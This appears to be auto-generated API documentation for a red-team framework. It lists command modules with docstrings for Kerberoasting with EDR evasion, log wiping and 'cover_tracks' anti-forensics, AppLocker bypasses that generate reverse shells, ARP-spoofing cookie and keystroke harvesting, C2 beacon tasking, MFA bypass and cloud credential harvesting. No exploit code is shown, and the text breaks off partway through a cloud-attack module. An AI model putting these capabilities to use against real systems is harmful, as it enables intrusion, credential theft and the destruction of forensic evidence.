- `do_kerberoast` (line 277) `def do_kerberoast(self, line)` - *Advanced Kerberoasting — AES-only mode, targeted SPN enumeration.

Usage: kerberoast [--mode aes|rc4|both] [--high-value] [--output hash_file]

AES-only mode (--mode aes) avoids RC4-HMAC detection rules on EDR/SIEM.

Examples:
    kerberoast --mode aes --high-value
    kerberoast --mode both --output sessions/kerberoast_hashes.txt*
- `do_adcs_esc` (line 324) `def do_adcs_esc(self, line)` - *Check Active Directory Certificate Services for ESC1-ESC13 vulnerabilities.

Usage: adcs_esc [--domain DOMAIN] [--dc-ip DC_IP]

Detects vulnerable certificate templates and ESC attack paths (ESC1 through ESC13).*

#### `ai.py`
**Path:** `cli/commands/ai.py`
**File Doc:** *Artificial Intelligence command set.  Covers the ``do_ask``, ``do_groq``, ``do_ai_playbook`` and ``do_ai_toggle`` commands. ``ask`` answers through the configured ``llm_backend`` (any provider); ``groq`` pins the Groq backend explicitly. Both resolve models, keys, and budget through :mod:`modules.llm_factory` — no subprocess, no vendored CLI scripts, no shell.*

**Classes:**
- `AiCommandSet` (line 71) `class AiCommandSet(LazyOwnCommandSet)` - *Pending phase module for the Artificial Intelligence commands.*

**Functions:**
- `_serve` (line 220) `def _serve(member_id, backend_name, text)`

**Methods:**
- `do_ask` (line 78) `def do_ask(self, line)` - *Ask the AI a question with current session context pre-loaded.

Injects rhost, lhost, phase, OS, latest scan summary, and recent
commands into the prompt so the AI can give targeted advice
without the operator having to copy-paste context manually.

Answers through the configured ``llm_backend`` (any provider).

Usage:
    ``ask what are the best privesc paths for this Linux host?``
    ``ask what services look exploitable on this target?``
    ``ask how do I exploit SMB signing disabled?``
    ``ask snapshot <question>`` answers from a frozen context
    snapshot without touching session state.

Args:
    line: Free-form question forwarded to the LLM.

Returns:
    None.*
- `do_groq` (line 166) `def do_groq(self, line)` - *Generate a single-line command through the Groq backend.

When the input line is empty the shell's current prompt string is
forwarded as the goal. The backend, model, and key resolve through
:mod:`modules.llm_factory` — no subprocess, no shell.

Args:
    line: Goal text. Empty falls back to ``self.prompt``.

Returns:
    None.*
- `do_poolcheck` (line 197) `def do_poolcheck(self, line)` - *Prove the LLM failover pool order with one live prompt.

Usage:
    poolcheck
    poolcheck "Reply with exactly: READY"

Sends one prompt through ``modules.llm_pool`` (groq rank 10, then
ollama rank 1, shared health registry) and prints which member
answered. Kill groq (bad key, offline) and rerun to watch the
failover happen instead of taking it on faith.

Args:
    line: Optional prompt. Defaults to a one-word probe.

Returns:
    None.*
- `do_ai_playbook` (line 254) `def do_ai_playbook(self, line)` - *Generate an offensive playbook from Nmap CSV + KB + Ollama.

Combines a parsed Nmap CSV export, the local technique knowledge
base, and an Ollama LLM completion to render a YAML playbook
under ``playbooks/``.

Usage:
    ``ai_playbook <csv_file> [playbook_name] [model_name]``

Args:
    line: Whitespace-separated positional arguments. All are
        optional; missing values fall back to
        ``sessions/vulns_<rhost>.csv``, ``AutoGeneratedPlaybook``
        and the ``llm_model_ollama`` payload value.

Returns:
    None.*
- `do_ai_toggle` (line 361) `def do_ai_toggle(self, _arg)` - *Toggle the in-process AI assistant on or off.

Flips ``use_ai`` on the shell so subsequent prompts either consult
the configured LLM backend or pass through untouched.

Args:
    _arg: Unused command-line argument.

Returns:
    None.*
- `do_llm_budget` (line 378) `def do_llm_budget(self, line)` - *Show the LLM daily cost budget, per call token cap, and current spend.

The framework wraps every LLM call with a budget proxy that
enforces a daily cost cap and a per call token cap. The cap
values live in ``payload.json`` and the proxy persists the
spend to ``sessions/llm_budget.json``.

Subcommands:

- ``llm_budget``            Show the structured status block.
- ``llm_budget json``       Emit the status as a JSON object.
- ``llm_budget reset``      Clear the ledger for the current day.

Args:
    line: Optional subcommand string.

Returns:
    None. Output is written to stdout through ``print_msg`` so
    the LazyOwn history capture picks the result up.*

#### `anti_forensics.py`
**Path:** `cli/commands/anti_forensics.py`
**File Doc:** *Anti-Forensics command set.  Covers post-exploitation cleanup: log wiping, timeline scrubbing, secure file deletion, free space wiping, AD event-log clearing, and an all-in-one cover-tracks operation.*

**Classes:**
- `AntiForensicsCommandSet` (line 32) `class AntiForensicsCommandSet(LazyOwnCommandSet)` - *Anti-forensics operations for post-exploitation cleanup.*

**Methods:**
- `do_wipe_logs` (line 39) `def do_wipe_logs(self, line)` - *Clear system log files on the remote target.

Usage: wipe_logs [--target <ip>] [--user <username>] [--all] [--force]

Without --target, prepares local commands for manual execution.
With --target, executes cleanup via SSH.*
- `do_wipe_timeline` (line 104) `def do_wipe_timeline(self, line)` - *Scrub file timestamps and shell history on the target.

Usage: wipe_timeline [--target <ip>] [--user <username>] [--path <dir>] [--force]

Touches all files under --path with a fixed timestamp to destroy
forensic timeline analysis. Defaults to common writable paths.*
- `do_shred` (line 151) `def do_shred(self, line)` - *Securely delete files by overwriting before removal.

Usage: shred <file_path> [--passes <n>] [--target <ip>] [--user <username>] [--force]

Overwrites the file N times with random data then deletes it.
Defaults to 7 passes (DoD 5220.22-M standard).*
- `do_wipe_free` (line 206) `def do_wipe_free(self, line)` - *Wipe free disk space to prevent forensic file recovery.

Usage: wipe_free [--target <ip>] [--user <username>] [--path <mount_point>] [--force]

Fills free space with random data then removes the filler file.
Defaults to /tmp if no path is specified on remote targets.*
- `do_clean_ad` (line 243) `def do_clean_ad(self, line)` - *Clear Active Directory event logs and cached Kerberos tickets.

Usage: clean_ad [--target <dc_ip>] [--user <domain\user>] [--password <pass>] [--force]

Purges Security, System, and Application event logs on the DC.
Clears Kerberos ticket cache on the attacker machine.*
- `do_cover_tracks` (line 304) `def do_cover_tracks(self, line)` - *Run all anti-forensics operations in sequence.

Usage: cover_tracks [--target <ip>] [--user <username>] [--password <pass>] [--force]

Executes: wipe_logs -> wipe_timeline -> clean_ad -> wipe_free.*

#### `applocker_bypass.py`
**Path:** `cli/commands/applocker_bypass.py`
**File Doc:** *AppLocker and WDAC bypass command set.  Generates payloads and bypass scripts for 7 signed Microsoft binaries that are commonly allowed through AppLocker and Windows Defender Application Control policies.*

**Classes:**
- `AppLockerBypassCommandSet` (line 99) `class AppLockerBypassCommandSet(LazyOwnCommandSet)` - *AppLocker and WDAC bypass payload generators.*

**Methods:**
- `_get_lh` (line 105) `def _get_lh(self)`
- `do_applocker_installutil` (line 109) `def do_applocker_installutil(self, line)` - *Generate an InstallUtil.exe AppLocker bypass payload.

Usage: applocker_installutil

Compiles a .NET assembly that downloads and executes a PowerShell
payload, then provides the InstallUtil.exe command for execution.
The assembly uses the required Installer class pattern.

MITRE: T1218.004*
- `do_applocker_msbuild` (line 146) `def do_applocker_msbuild(self, line)` - *Generate an MSBuild.exe AppLocker bypass payload.

Usage: applocker_msbuild

Creates a .xml MSBuild project file that executes PowerShell.
MSBuild.exe is signed and commonly allowed through WDAC policies.

MITRE: T1127.001*
- `do_applocker_regsvcs` (line 173) `def do_applocker_regsvcs(self, line)` - *Generate a Regsvcs.exe/Regasm.exe AppLocker bypass payload.

Usage: applocker_regsvcs

Compiles a .NET assembly inheriting ServicedComponent and
generates the Regsvcs.exe command to execute the payload.

MITRE: T1218.009*
- `do_applocker_csc` (line 209) `def do_applocker_csc(self, line)` - *Generate a csc.exe compile-and-execute AppLocker bypass.

Usage: applocker_csc

Creates a pure C# reverse shell source file that can be compiled
with csc.exe (a signed Microsoft binary commonly allowed).
No external dependencies except .NET Framework.

MITRE: T1027.004*
- `do_applocker_mshta` (line 240) `def do_applocker_mshta(self, line)` - *Generate an mshta.exe AppLocker bypass payload.

Usage: applocker_mshta

Creates an HTA file that executes PowerShell via mshta.exe
(a signed Microsoft binary). Can be served via HTTP or run
from local disk.

MITRE: T1218.005*
- `do_applocker_rundll32` (line 269) `def do_applocker_rundll32(self, line)` - *Generate a rundll32.exe AppLocker bypass via SCT scriptlet.

Usage: applocker_rundll32

Creates a .sct scriptlet file that executes JavaScript via
rundll32.exe (a signed Microsoft binary). Can be served via
HTTP or run from local disk.

MITRE: T1218.011*
- `do_applocker_presentation` (line 298) `def do_applocker_presentation(self, line)` - *Generate a PresentationHost.exe AppLocker bypass reference.

Usage: applocker_presentation

Provides commands to generate and deploy an XBAP payload.
PresentationHost.exe is a signed WPF host that can execute
XAML Browser Applications.

MITRE: T1218*

#### `audit.py`
**Path:** `cli/commands/audit.py`
**File Doc:** *Audit-mode CommandSet: fuzzy finder, forms, status tail, transcript grep.  This module wires the SOLID primitives in :mod:`cli.cli_enhancements` to the running ``LazyOwnShell`` instance via cmd2's CommandSet auto-discovery.  Commands exposed ---------------- - ``fz [query]`` — fuzzy command finder backed by ``FuzzyCommandIndex``. - ``form <command>`` — interactive parameter form for any registered command. - ``status_tail [target]`` — parse the latest scan partial and print progress. - ``grep_log <pattern>`` — grep across the recent transcript. - ``reload_addons`` — trigger one polling sweep over ``lazyaddons/``+``plugins/``.  Design constraints ------------------ - Pull the parent shell instance via ``self._cmd``. Never import lazyown.py. - Lazily build heavy primitives (transcript store, hot reloader) so cmd2 startup does not regress. - Every public command method has a one-line docstring (cmd2 turns it into the help text shown by ``help <name>``).*

**Classes:**
- `AuditCommandSet` (line 92) `class AuditCommandSet(LazyOwnCommandSet)` - *Operator commands that improve audit ergonomics.

Phase: ``audit`` (cross-cutting; not tied to a kill-chain stage).*

**Functions:**
- `_read_credentials` (line 304) `def _read_credentials(shell)`

**Methods:**
- `__init__` (line 101) `def __init__(self)`
- `_ensure_fuzzy` (line 110) `def _ensure_fuzzy(self)`
- `_ensure_completer` (line 117) `def _ensure_completer(self)`
- `_ensure_transcript` (line 138) `def _ensure_transcript(self)`
- `_ensure_hot_reloader` (line 145) `def _ensure_hot_reloader(self)`
- `do_fz` (line 160) `def do_fz(self, statement)` - *Fuzzy command finder. Usage: fz [query]. Empty lists every command.*
- `do_form` (line 178) `def do_form(self, statement)` - *Open an interactive form for a known command. Usage: form <command>.*
- `do_status_tail` (line 196) `def do_status_tail(self, statement)` - *Print live progress from the latest sessions/scan_*.partial file.*
- `do_grep_log` (line 234) `def do_grep_log(self, statement)` - *Grep recent command outputs. Usage: grep_log <pattern> [--cmd <name>].*
- `do_reload_addons` (line 263) `def do_reload_addons(self, _statement)` - *Re-scan lazyaddons/ and plugins/ for changes; reloads what's new.*
- `do_audit_complete_keys` (line 288) `def do_audit_complete_keys(self, statement)` - *Print payload-aware completion suggestions for a partial command.*

#### `automation.py`
**Path:** `cli/commands/automation.py`
**File Doc:** *Automation command set — credential reuse, conditional hooks, operator profiles.  Provides CLI commands for managing the credential reuse engine, conditional hook rules, and multi-operator profiles.*

**Classes:**
- `AutomationCommandSet` (line 17) `class AutomationCommandSet(LazyOwnCommandSet)` - *Automation & operator workflow commands.*

**Methods:**
- `do_cred_reuse` (line 24) `def do_cred_reuse(self, line)` - *Analyze captured credentials and suggest spray targets.

Usage: cred_reuse [limit=N]*
- `do_cred_mark_failed` (line 57) `def do_cred_mark_failed(self, line)` - *Mark a credential as failed against a host.

Usage: cred_mark_failed <user> <password> <host>*
- `do_hooks_list` (line 78) `def do_hooks_list(self, line)` - *List all conditional hook rules.

Usage: hooks_list*
- `do_hooks_enable` (line 101) `def do_hooks_enable(self, line)` - *Enable or disable a hook rule.

Usage: hooks_enable <rule_name> [on|off]*
- `do_hooks_add` (line 129) `def do_hooks_add(self, line)` - *Add a new conditional hook rule (JSON string).

Usage: hooks_add '{"name":"my-rule","trigger":{"event":"beacon_connected"},"actions":[{"type":"run_command","command":"whoami"}]}'*
- `do_hooks_remove` (line 150) `def do_hooks_remove(self, line)` - *Remove a hook rule by name.

Usage: hooks_remove <rule_name>*
- `do_hooks_fire` (line 172) `def do_hooks_fire(self, line)` - *Manually fire a hook event for testing.

Usage: hooks_fire <event_name> [key=value ...]*
- `do_operators` (line 202) `def do_operators(self, line)` - *List all operator profiles.

Usage: operators*
- `do_operator_create` (line 229) `def do_operator_create(self, line)` - *Create a new operator profile.

Usage: operator_create <username> [role=operator] [lhost=IP] [lport=PORT]*
- `do_operator_load` (line 264) `def do_operator_load(self, line)` - *Load effective config for an operator (team baseline + overrides).

Usage: operator_load <username>*
- `do_operator_delete` (line 292) `def do_operator_delete(self, line)` - *Delete an operator profile.

Usage: operator_delete <username>*
- `do_hooks` (line 314) `def do_hooks(self, line)` - *Conditional hooks management — list, enable, disable, add, remove rules.

Usage: hooks [subcommand] [args]
Subcommands: list, enable, disable, add, remove, fire*

#### `bitm.py`
**Path:** `cli/commands/bitm.py`
**File Doc:** *Browser-in-the-Middle CLI command set.  Automates ARP spoofing + transparent HTTP injection attacks to harvest browser sessions, cookies, OAuth tokens, form data, and keystrokes from target machines on the local network.*

**Classes:**
- `BitMCommandSet` (line 24) `class BitMCommandSet(LazyOwnCommandSet)` - *Browser-in-the-Middle — ARP spoofing + JS injection credential harvester.*

**Methods:**
- `do_bitm` (line 31) `def do_bitm(self, line)` - *Browser-in-the-Middle attack manager.

Usage:
    bitm start <target_ip> [--gateway <ip>] [--interface <iface>] [--lport <port>] [--payloads <p1,p2,...>]
    bitm stop
    bitm status
    bitm inject <payload_name>
    bitm harvest
    bitm cleanup

Starts ARP spoofing (bettercap or arpspoof) against the target and
transparently injects JavaScript payloads into HTTP responses to
harvest browser sessions.

Requires: root/sudo, bettercap or dsniff (arpspoof).

Available JS payloads:
    cookie_harvest  — capture all document.cookie
    form_sniff     — log every form submission
    keylogger      — keystroke capture
    screenshot     — html2canvas page screenshot (needs html2canvas on victim)
    oauth_token_grab — steal OAuth tokens from localStorage/sessionStorage/cookies
    beef_hook      — inject BeEF hook script

Examples:
    bitm start 192.168.1.105
    bitm start 192.168.1.105 --payloads cookie_harvest,form_sniff,oauth_token_grab
    bitm inject keylogger
    bitm harvest
    bitm stop*
- `_bitm_start` (line 94) `def _bitm_start(self, args)` - *Parse arguments and launch the BitM attack.*
- `_bitm_stop` (line 168) `def _bitm_stop(self)` - *Stop the BitM attack and display harvest summary.*
- `_bitm_status` (line 191) `def _bitm_status(self)` - *Show active BitM attack details.*
- `_bitm_inject` (line 214) `def _bitm_inject(self, args)` - *Inject an additional JS payload into an active BitM session.*
- `_bitm_harvest` (line 239) `def _bitm_harvest(self)` - *Show harvested credential statistics.*
- `_bitm_cleanup` (line 257) `def _bitm_cleanup(self)` - *Force-kill all BitM processes and remove state.*

#### `bof_registry.py`
**Path:** `cli/commands/bof_registry.py`
**File Doc:** *BOF marketplace CommandSet — Beacon Object File discovery, install, and execution.  Exposes ``modules/bof_registry`` through the LazyOwn CLI. Install compiles BOFs and stages them for beacon delivery. Run sends ``bof:URL`` commands to connected beacons via the C2.  Contracts: - bof_install: clones repo, compiles BOF .o, stages to sessions/temp_uploads/bofs/ - bof_run: generates bof:URL command, queues it on C2 for target beacon - bof_search, bof_info, bof_catalog, bof_list, bof_uninstall: as before*

**Classes:**
- `BofMarketplaceCommandSet` (line 29) `class BofMarketplaceCommandSet(LazyOwnCommandSet)` - *BOF marketplace: search, install, info, list, run BOFs on beacons.*

**Methods:**
- `_ensure_staging_dir` (line 36) `def _ensure_staging_dir()` - *Create and return the BOF staging directory path.*
- `_find_bof_object` (line 42) `def _find_bof_object(bof_name)` - *Find a compiled .o file for a BOF across all known source trees.

Searches:
1. external/.exploit/beacon/bof/<bof_name>/  (Windows BOFs)
2. external/.exploit/blacksandbeacon/build/bof/  (Linux BOFs)
3. Beacon pre-compiled .o files at external/.exploit/beacon/bof/
4. Any .o matching the name under external/.exploit/

Returns the path to the .o, or None if not found.*
- `_stage_bof` (line 71) `def _stage_bof(self, bof_name)` - *Find a compiled BOF object and stage it to sessions/temp_uploads/bofs/.

Returns the destination path, or None if no compiled object found.*
- `_queue_command_on_c2` (line 89) `def _queue_command_on_c2(self, client_id, command)` - *Send a command to a connected beacon via the C2's issue_command endpoint.

Posts to https://localhost:<c2_port>/issue_command with Basic Auth.
Handles self-signed TLS certificates (C2 default).

Returns True on success, False on failure.*
- `do_bof_search` (line 142) `def do_bof_search(self, line)` - *Search the BOF catalog by keyword.

Usage: bof_search [query]*
- `do_bof_info` (line 163) `def do_bof_info(self, line)` - *Show detailed information about a BOF.

Usage: bof_info <name>*
- `do_bof_install` (line 196) `def do_bof_install(self, line)` - *Install and compile a BOF, staging it for beacon delivery.

Usage: bof_install <name> [<name2> ...]

Clones the BOF source (if available), compiles the object file with
x86_64-w64-mingw32-gcc, and copies the .o to sessions/temp_uploads/bofs/
where the C2's /download/ endpoint can serve it to beacons.*
- `do_bof_run` (line 226) `def do_bof_run(self, line)` - *Execute a BOF on a connected beacon.

Usage: bof_run <bof_name> <beacon_client_id> [arg1,arg2,...]

Generates a bof:<c2_url>/download/bofs/<name> command and queues it
on the C2 for the specified beacon. The beacon's C client will download
and execute the BOF via its internal COFFLoader.

Examples:
    bof_run ldap_enum win10_beacon
    bof_run whoami linux_beacon_01*
- `do_bof_uninstall` (line 267) `def do_bof_uninstall(self, line)` - *Uninstall a BOF and remove its staged file.

Usage: bof_uninstall <name>*
- `do_bof_list` (line 289) `def do_bof_list(self, line)` - *List all installed and staged BOFs.

Usage: bof_list*
- `do_bof_catalog` (line 321) `def do_bof_catalog(self, line)` - *List all BOFs available in the curated catalog.

Usage: bof_catalog [--category <name>] [--platform windows|linux]*

#### `c2_profile.py`
**Path:** `cli/commands/c2_profile.py`
**File Doc:** *C2 profile CommandSet — extended malleable C2 profiles (TLS, DNS, SMB, WS).  Exposes ``modules/c2_profile_engine`` through the LazyOwn CLI.*

**Classes:**
- `C2ProfileCommandSet` (line 18) `class C2ProfileCommandSet(LazyOwnCommandSet)` - *Extended C2 profile commands: TLS, DNS, SMB, WebSocket profiles.*

**Methods:**
- `do_c2_profiles` (line 25) `def do_c2_profiles(self, line)` - *List all available C2 transport profiles.

Usage: c2_profiles [--json]*
- `do_c2_tls` (line 50) `def do_c2_tls(self, line)` - *Display the current TLS C2 profile.

Usage: c2_tls [--ja3]*
- `do_c2_dns` (line 69) `def do_c2_dns(self, line)` - *Configure or display the DNS beacon profile.

Usage: c2_dns [--domain <fqdn>] [--encoding base32|base64|hex]*
- `do_c2_rotate` (line 90) `def do_c2_rotate(self, line)` - *Rotate to the next C2 transport profile in the rotation queue.

Usage: c2_rotate*

#### `caldera.py`
**Path:** `cli/commands/caldera.py`
**File Doc:** *Caldera-style command set — operation lifecycle, TTP coverage, and planner.  Wires the new ``modules/operation``, ``modules/planner``, and ``modules/ttp_coverage`` modules into the LazyOwn shell.  Commands: op_list                  — list all operations op_create <name> <target> [apt] op_plan <id> [playbook]  — populate steps via playbook YAML or MITRE derive op_start <id>            — run all pending steps (no-op executor by default) op_pause <id>            — pause a running operation op_resume <id>           — resume a paused operation op_stop <id>             — stop a running operation op_status <id>           — show progress, coverage, fact count op_timeline <id>         — chronological event log op_report <id>           — full post-mortem  ttp_matrix               — coverage matrix across all operations ttp_rebuild              — re-walk operations dir to refresh ttp_show <technique_id>  — detail for one technique  plan <target>            — pick the next best technique to run plan_detail <target>     — full ranked list with scores*

**Classes:**
- `CalderaCommandSet` (line 66) `class CalderaCommandSet(LazyOwnCommandSet)` - *Operation lifecycle, TTP coverage, and fact-based planner.*

**Functions:**
- `_resolve_manager` (line 49) `def _resolve_manager()`
- `_resolve_coverage` (line 53) `def _resolve_coverage()`
- `_resolve_planner` (line 59) `def _resolve_planner(shell)`

**Methods:**
- `_shell` (line 72) `def _shell(self)`
- `do_op_list` (line 80) `def do_op_list(self, line)` - *List all operations.

Usage: op_list*
- `do_op_create` (line 96) `def do_op_create(self, line)` - *Create a new planned operation.

Usage: op_create <name> <target> [apt_name] [description]*
- `do_op_plan` (line 114) `def do_op_plan(self, line)` - *Populate operation steps from a playbook YAML or via MITRE derive.

Usage: op_plan <op_id> [path/to/playbook.yaml]*
- `do_op_start` (line 141) `def do_op_start(self, line)` - *Start (or resume) an operation.

Usage: op_start <op_id>
Steps with empty commands run as no-ops. Wire the
``executor(callable)`` from outside the shell to actually
execute payloads (see ``modules/operation.py``).*
- `do_op_pause` (line 166) `def do_op_pause(self, line)` - *Pause a running operation.

Usage: op_pause <op_id>*
- `do_op_resume` (line 183) `def do_op_resume(self, line)` - *Resume a paused operation.

Usage: op_resume <op_id>*
- `do_op_stop` (line 200) `def do_op_stop(self, line)` - *Stop a running operation.

Usage: op_stop <op_id>*
- `do_op_status` (line 217) `def do_op_status(self, line)` - *Show the status of an operation.

Usage: op_status <op_id>*
- `do_op_timeline` (line 249) `def do_op_timeline(self, line)` - *Show the event timeline of an operation.

Usage: op_timeline <op_id>*
- `do_op_report` (line 272) `def do_op_report(self, line)` - *Generate a full report for an operation.

Usage: op_report <op_id>*
- `do_ttp_matrix` (line 290) `def do_ttp_matrix(self, line)` - *Render the MITRE ATT&CK coverage matrix across all operations.

Usage: ttp_matrix*
- `do_ttp_rebuild` (line 299) `def do_ttp_rebuild(self, line)` - *Re-walk the operations directory to refresh the coverage matrix.

Usage: ttp_rebuild*
- `do_ttp_show` (line 309) `def do_ttp_show(self, line)` - *Show details for a single MITRE technique.

Usage: ttp_show <T1234.001>*
- `do_plan` (line 336) `def do_plan(self, line)` - *Pick the next best technique to run for a target.

Usage: plan <target>
Shows the chosen technique, its score, and a one-line rationale.*
- `do_plan_detail` (line 364) `def do_plan_detail(self, line)` - *Show the full ranked plan (all candidates) for a target.

Usage: plan_detail <target>*
- `do_plan_apply` (line 391) `def do_plan_apply(self, line)` - *Run the planner, then auto-create and start an operation.

Usage: plan_apply <target> [op_name] [apt_name]*

#### `campaign.py`
**Path:** `cli/commands/campaign.py`
**File Doc:** *Campaign export/import commands — portable engagement packages.  Package a full campaign (database, sessions, world model, credentials, notes, loot) into a single portable .zip file.  Import restores everything into a new workspace so engagements can be shared, archived, or replayed.*

**Classes:**
- `CampaignCommandSet` (line 37) `class CampaignCommandSet(LazyOwnCommandSet)` - *Export and import full campaign packages as portable archives.*

**Methods:**
- `do_campaign` (line 44) `def do_campaign(self, line)` - *Export or import an entire campaign as a portable package.

Usage:
    campaign export [name]     — package the current campaign
    campaign import <file>     — restore a campaign from a package
    campaign list              — list exported campaign packages
    campaign status            — show live shared campaign state

Export packages include:
  - SQLite database dump (all workspaces, hosts, services, vulns,
    creds, loot, notes)
  - sessions/ files (nmap scans, world model, objectives, events)
  - payload.json snapshot
  - campaign metadata (timestamp, operator, phase)

Examples:
    campaign export
    campaign export htb_machine_name
    campaign import sessions/exports/htb_machine_name_20260730.zip
    campaign list*
- `_gather_campaign_manifest` (line 93) `def _gather_campaign_manifest(self, name)` - *Build a manifest describing the current campaign state.*
- `_campaign_export` (line 135) `def _campaign_export(self, name)` - *Package the current campaign into a portable .zip archive.*
- `_campaign_import` (line 184) `def _campaign_import(self, package_path)` - *Restore a campaign from an exported .zip archive.*
- `_campaign_list` (line 305) `def _campaign_list(self)` - *List exported campaign packages.*
- `_campaign_status` (line 337) `def _campaign_status(self)` - *Print the live shared campaign state (no export, read-only).*

#### `catalog.py`
**Path:** `cli/commands/catalog.py`
**File Doc:** *Command catalog — browse all registered commands by keyword, phase or category.  Backed by the auto-generated ``cli/command_index.json`` so the listing stays in sync with the source tree. Addons and plugins registered at runtime are shown by the ``addons`` view.*

**Classes:**
- `CatalogCommandSet` (line 19) `class CatalogCommandSet(LazyOwnCommandSet)` - *Browse the command catalog.*

**Functions:**
- `shlex_split` (line 111) `def shlex_split(text)` - *Split text like shlex.split but handle empty strings gracefully.*

**Methods:**
- `_index` (line 25) `def _index(self)`
- `do_catalog` (line 33) `def do_catalog(self, line)` - *Browse the command catalog.

Usage:
  catalog                 show totals and commands by category
  catalog <keyword>       filter commands by keyword
  catalog --phase <p>     list commands in a phase (recon, enum, ...)
  catalog --category <c>  list commands in a category
  catalog --count         show totals only
  catalog --json <kw>     dump matching commands as JSON*
- `_filter_commands` (line 88) `def _filter_commands(self, commands, keyword)` - *Filter *commands* by keyword in name or summary.*
- `_print_hits` (line 95) `def _print_hits(self, hits, label)` - *Print *hits* (grouped by category) under *label*.*

#### `cicd.py`
**Path:** `cli/commands/cicd.py`
**File Doc:** *CI/CD Enumeration command set.  Phase 02/03 — commands for enumerating CI/CD platforms, scanning build logs for secrets, and abusing pipeline misconfigurations.*

**Classes:**
- `CICDCommandSet` (line 27) `class CICDCommandSet(LazyOwnCommandSet)` - *CI/CD pipeline enumeration and attack commands.*

**Methods:**
- `do_cicd_scan` (line 34) `def do_cicd_scan(self, line)` - *Scan CI/CD platform for security misconfigurations.

Usage: cicd_scan --url <platform_url> [--type jenkins|gitlab|github|azure|bitbucket]

Enumerates:
- Exposed API endpoints
- Credential stores
- Pipeline configurations with potential secret leakage
- Unauthenticated access vectors*
- `do_cicd_secrets` (line 97) `def do_cicd_secrets(self, line)` - *Scan build log for leaked secrets.

Usage: cicd_secrets [--file <path>] [--input <text>]

Scans provided text or file for common secret patterns:
passwords, API keys, tokens, SSH keys, AWS keys, database
connection strings, and package registry tokens.*
- `do_jenkins_enum` (line 140) `def do_jenkins_enum(self, line)` - *Enumerate a Jenkins instance.

Usage: jenkins_enum --url <jenkins_url>

Checks for: Script Console access, credential store exposure,
unauthenticated API, build agent enumeration, console output
with potential secret leakage.*
- `do_gitlab_enum` (line 185) `def do_gitlab_enum(self, line)` - *Enumerate a GitLab instance.

Usage: gitlab_enum --url <gitlab_url>

Checks for: Public projects, API accessibility, CI lint API,
runner enumeration, GraphQL API, version disclosure.*
- `do_mfa_bypass` (line 231) `def do_mfa_bypass(self, line)` - *Enumerate and test MFA bypass techniques.

Usage: mfa_bypass --domain <target.com> [--idp <okta|azure|duo>]

Analyzes target MFA posture and recommends bypass techniques:
- Session cookie theft and replay
- Push notification bombing/fatigue
- Legacy protocol enumeration (IMAP/POP3/SMTP)
- Conditional Access policy gaps
- SAML assertion forging
- Device code phishing templates*
- `_extract` (line 290) `def _extract(args, flag)`

#### `cli_auth.py`
**Path:** `cli/commands/cli_auth.py`
**File Doc:** *CLI authentication command set — login/logout/whoami.  Integrates with :mod:`modules.cli_auth` to authenticate CLI operators against the same ``users.json`` as lazyc2.py.*

**Classes:**
- `CliAuthCommandSet` (line 27) `class CliAuthCommandSet(LazyOwnCommandSet)` - *CLI operator authentication — login, logout, whoami.*

**Methods:**
- `do_login` (line 34) `def do_login(self, line)` - *Authenticate against users.json (same users as lazyc2.py).

Usage:
    login                          — prompt for username and password
    login <username>               — login with specified username
    login --remember <username>     — persist login across shell restarts

Credentials are verified against the same users.json database
used by the C2 web dashboard. The password is never echoed.

With ``--remember``, a secure token is stored in payload.json
so you are automatically logged in on future shell starts.

Examples:
    login
    login grisun0
    login --remember grisun0*
- `do_register` (line 117) `def do_register(self, line)` - *Register a new operator account in users.json.

Usage:
    register                          — prompt for username and password
    register <username>               — register with specified username

First registered user becomes admin; subsequent users get the
user role. Password must be at least 12 characters.

After registration you can login immediately with the same
credentials, or use ``login --remember`` for persistent sessions.

Examples:
    register
    register newoperator*
- `do_logout` (line 191) `def do_logout(self, line)` - *Log out the current CLI operator and clear the remember-me token.

Usage:
    logout

Clears the CLI session and removes any stored remember-me token
from payload.json.*
- `do_whoami` (line 224) `def do_whoami(self, line)` - *Show the currently logged-in CLI operator.

Usage:
    whoami

Displays username, role, ELO score, and karma rank.*

#### `cloud.py`
**Path:** `cli/commands/cloud.py`
**File Doc:** *Cloud attack command set.  Commands for cloud provider enumeration, metadata harvesting, storage bucket discovery, and IAM reconnaissance across AWS, Azure, and GCP.*

**Classes:**
- `CloudCommandSet` (line 30) `class CloudCommandSet(LazyOwnCommandSet)` - *Cloud attack phase commands.*

**Methods:**
- `_get_cloud_scanner` (line 36) `def _get_cloud_scanner(self)`
- `do_cloud_metadata` (line 49) `def do_cloud_metadata(self, _line)` - *Harvest cloud instance metadata (AWS IMDS, Azure, GCP).

Attempts to read cloud instance metadata from all three major
providers. Discovers IAM credentials, SSH keys, user-data
scripts, and managed identity tokens.

Usage: cloud_metadata*
- `do_cloud_buckets` (line 98) `def do_cloud_buckets(self, line)` - *Enumerate cloud storage buckets for a given prefix.

Checks AWS S3, Azure Blob Storage, and GCP Storage buckets
derived from the target prefix for public accessibility.

Usage:
    cloud_buckets <prefix>
    cloud_buckets mycompany*
- `do_cloud_scan` (line 148) `def do_cloud_scan(self, line)` - *Full cloud security scan: metadata + buckets + IAM enumeration.

Usage:
    cloud_scan <prefix>
    cloud_scan mycompany*
- `do_cloud_iam` (line 187) `def do_cloud_iam(self, _line)` - *Enumerate cloud IAM roles and policies.

Attempts to enumerate IAM users, roles, and policies when
valid cloud credentials are present in the environment.

Usage: cloud_iam*
- `do_cloud_enum` (line 239) `def do_cloud_enum(self, line)` - *Enumerate cloud provider metadata, storage, and IAM.

Usage: cloud_enum [provider]
Providers: aws, azure, gcp (auto-detect if omitted)

Performs full enumeration including IMDS metadata extraction,
storage bucket listing, IAM role enumeration, and privilege
escalation path detection.  Auto-installs dependencies if missing.*

#### `cloud_attacks.py`
**Path:** `cli/commands/cloud_attacks.py`
**File Doc:** *Cloud attack commands — Azure AD/Entra ID, AWS, GCP, Kubernetes, cross-cloud, SaaS.  Provides: entra_attack            — Entra ID device code phishing, OAuth consent, managed identity aws_privesc             — AWS IAM enumeration, Lambda backdoors, STS role chaining gcp_privesc             — GCP service account impersonation, Cloud Functions, GCS k8s_attack              — Kubernetes RBAC enum, pod escape, etcd, Helm Tiller cross_cloud             — Cross-cloud federation attacks (SAML/OIDC bridging) saas_enum               — SaaS platform enumeration (M365, Google Workspace, Salesforce, Slack)*

**Classes:**
- `CloudAttackCommandSet` (line 17) `class CloudAttackCommandSet(LazyOwnCommandSet)` - *Cloud and SaaS attack operations.*

**Methods:**
- `do_entra_attack` (line 23) `def do_entra_attack(self, line)` - *Microsoft Entra ID / Azure AD attack operations.

Usage: entra_attack <method> [options]

Methods:
    device_code   — Initiate device code phishing flow
